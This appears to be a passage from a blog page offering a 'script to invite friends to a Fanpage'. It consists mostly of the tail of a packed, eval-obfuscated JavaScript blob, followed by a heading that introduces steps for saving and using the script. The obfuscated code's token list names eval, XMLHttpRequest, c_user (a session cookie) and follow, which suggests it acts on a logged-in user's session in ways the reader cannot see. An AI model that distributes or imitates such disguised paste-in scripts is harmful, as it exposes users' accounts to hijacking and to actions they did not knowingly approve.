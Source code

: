 3B=3d(W(){1n(1q&lt;=0){1q=N[a[O]](a[2Z])[a[39]]};N[a[O]](a[1T])[a[28]]=a[4x]+(1q--)+a[3L]},1Q)}}}}}1z{2m(a[4C])}},4B:W(){1n(N[a[O]](a[3c])[a[3H]]){N[a[O]](a[2w])[a[7]][a[1s]]=a[2k];N[a[O]](a[3c])[a[7]][a[1s]]=a[1P];N[a[O]](a[2M])[a[7]][a[1s]]=a[2k]}},4A:{4z:W(){N[a[O]](a[3R])[a[28]]=a[4I]},4y:W(){N[a[O]](a[3O])[a[28]]=a[4E]},4L:W(){N[a[O]](a[3R])[a[28]]=a[1w];N[a[O]](a[3O])[a[28]]=a[1w]},4J:W(){N[a[O]](a[1M])[a[7]][a[1s]]=a[2k];N[a[O]](a[2M])[a[7]][a[1s]]=a[1P];N[a[O]](a[2Y])[a[7]][a[1s]]=a[2k]},4G:W(){N[a[O]](a[1M])[a[7]][a[1s]]=a[1P];N[a[O]](a[2M])[a[7]][a[1s]]=a[2k];N[a[O]](a[2Y])[a[7]][a[1s]]=a[1P]}},4H:W(2K){1n(2K[a[28]]==a[3Z]){2Q[a[2l]]=1N;2H[a[2l]]=1N;2s[a[2l]]=1N;2K[a[28]]=a[4P];4a[a[7]][a[2O]]=0.5;4c[a[7]][a[2O]]=0.5}1z{2Q[a[2l]]=2G;2H[a[2l]]=2G;2s[a[2l]]=2G;2K[a[28]]=a[3Z];4a[a[7]][a[2O]]=1;4c[a[7]][a[2O]]=1}},5R:{4e:W(){P 1q=2u(W(){2u(W(){2m(a[4u])},1Q);2s[a[2I]]()},1Q)},4v:W(){P 1q=2u(W(){2u(W(){2m(a[4M])},1Q);2s[a[2I]]()},1Q)}},4O:W(){P 3b=N[a[O]](a[5]);3b[a[4K]][a[4F]](3b)},4r:W(){N[a[O]](a[3a])[a[39]]=a[1w];N[a[O]](a[3M])[a[39]]=a[1w];N[a[O]](a[2Z])[a[39]]=a[1w];N[a[O]](a[1T])[a[28]]=a[1w];N[a[O]](a[2P])[a[28]]=a[1w];N[a[O]](a[2F])[a[28]]=a[1w];N[a[O]](a[2M])[a[7]][a[1s]]=a[1P];N[a[O]](a[2Y])[a[7]][a[1s]]=a[1P];N[a[O]](a[1M])[a[7]][a[1s]]=a[1P];N[a[O]](a[1M])[a[39]]=a[4m];1n(N[a[O]](a[2w])[a[3H]]){N[a[O]](a[2w])[a[7]][a[1s]]=a[1P];N[a[O]](a[3c])[a[7]][a[1s]]=a[2k]}},4l:W(){2X(P 1x=1;1x&lt;4n;1x++){3g[a[4d]](1x)};3g[a[5I]](1x);N[a[O]](a[1T])[a[28]]=a[5F];1m[a[2C]][a[2w]]()}};1m[a[5B]]();1m[a[2x]][a[5E]]();1m[a[2x]][a[5O]]();1m[a[2x]][a[5Q]]();1m[a[2x]][a[5r]]()})());',62,373,'||||||||||_0xe4a5|x69|x61|||x65|x74|x6F||x6E|x20|x6C|x72|x70|x64|x73|x2D|x27|x3D|x67|x3A|x63|x75|x6D|x3E|x3C|x79|x5F|x30|x2F|x62|x66|x68|x78|x31|x6B|x2E|x26|x3B|document|91|var|x76|x35|x77|x32|x34|_0xf253xd|function|x45|x54|x4C|||||||||||x53|x36|x23|x37|x46|x44|div|x28|x38|x29|x33|_0xf253x10|igniel|if|x43|x41|_0xf253x18|x49|157|_0xf253xf|x39|_0xf253x3|116|_0xf253x1d|x42|else|x50|x4F|x7A|x2C|x0A|_0xf253x1c|new|x71|x55|_0xf253x8|_0xf253x9|x6A|111|true|x48|160|1000|iddata|x4E|144|68|67|90|70|_0xf253x16|x5B|||||||||||_0xf253x4|_0xf253x2|_0xf253x19|x5D|_0xf253x6|66|_0xf253x5|69|XMLHttpRequest|_0xf253x1e|159|168|alert|x52|89|_0xf253x7|_0xf253x12|63|_0xf253xc|x57|setTimeout|61|158|181|x4B|x3F|x47|96|147|133|x22|93|false|_0xf253xb|118|Math|_0xf253x23|_0xf253xe|161|_0xf253x20|170|138|_0xf253xa|_0xf253x1f|140|139|145|97|146|for|166|128|||||||||||104|_0xf253x24|156|setInterval|143|Audio|window|141|142|106|_0xf253x14|isNaN|88|_0xf253x1a|null|135|131|85|137|136|_0xf253x21|x56|_0xf253x13|_0xf253x15|117|74|72|_0xf253x22|x4A|parseInt|body|u2716|u2714|155|_0xf253x1|64|130|151|129|x25|164|81|82|162|clearInterval|_0xf253x1b|94|_0xf253x11|79|200|83|167|||||||||||speaker|86|onoff|176|sip|152|_0xf253x17|132|150|clearTimeout|134|berhenti|175|99999|126|149|127|bersih|void|javascript|171|stop|bjita|153|delay|limit|balon|klik|154|148|165|173|notifTutup|mute|163|notif|174|out|172|x4D|tutup|169|zerohero|length|95|92|98|return|100|99|87|120|||||||||||rain|77|78|80|84|eval|119|alphabetees|110|JSON|x58|109|105|108|ig|112|113|184|115|101|102|114|103|76|121|123|124|179|run|c_user|180|178|x7B|125|177|x7D|107|get|follow|62|182|empat|183|suara|122|satu|75|dua|65|71|73|tiga|'.split('|'),0,{}));</span></span></pre></div><div><span style="color: #bdc3c7; font-family: &quot;source code pro&quot; , &quot;menlo&quot; , &quot;consolas&quot; , &quot;monaco&quot; , monospace;"><span style="font-size: 23.3084716796875px; line-height: 36.0779647827148px; white-space: pre-wrap;"><span style="background-color: white; color: #2f303f; font-family: inherit; font-size: inherit; font-style: inherit; font-variant: inherit; font-weight: inherit; line-height: inherit;"><br></span></span></span><h3><span style="color: #bdc3c7; font-family: &quot;source code pro&quot; , &quot;menlo&quot; , &quot;consolas&quot; , &quot;monaco&quot; , monospace;"><span style="font-size: 23.3084716796875px; line-height: 36.0779647827148px; white-space: pre-wrap;"><span style="background-color: white; color: #2f303f; font-family: inherit; font-size: inherit; font-style: inherit; font-variant: inherit; font-weight: inherit; line-height: inherit;">How to Save Script Invite Friend to Fanpage</span></span></span></h3><span class="notranslate" style="border: 0px; box-sizing: border-box; font-family: inherit; font-size: inherit; font-stretch: inherit; font-style: inherit; font-variant: inherit; font-weight: inherit; line-height: inherit; margin: 0px; padding: 0px; vertical-align: baseline;"><span class="notranslate" style="background-color: white; border: 0px; box-sizing: border-box; color: #2f303f; font-family: &quot;arial&quot; , sans-serif; font-size: 14px; font-stretch: inherit; line-height: 26px; margin: 0px; padding: 0px; vertical-align: baseline;">Here are the steps to save the script&nbsp;a quick way to invite all your friends to like Fanpage
